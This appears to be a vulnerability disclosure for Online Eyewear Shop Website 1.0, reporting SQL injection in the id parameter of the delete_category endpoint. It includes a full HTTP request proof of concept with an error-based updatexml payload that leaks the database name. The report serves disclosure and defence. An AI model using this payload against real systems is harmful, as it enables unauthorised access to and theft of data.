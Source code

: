 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=delete_category

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/classes/Master.php?f=delete_category, and the attack parameter is id. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Master.php?f=delete_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=categories
Cookie: PHPSESSID=af5dsp386jat1uspen8v4e8hhq
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=3%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get the database name directly through the error report: oews_db

![CleanShot 2024-09-24 at 10 26 01@2x](https://github.com/user-attachments/assets/d1e7839b-1e61-4f81-b9e5-d30f34d3f996)

## Code Analysis

![CleanShot 2024-09-24 at 10 27 45@2x](https://github.com/user-attachments/assets/3d6e0fd3-8fee-48b9-8895-9679bd1f7a57)


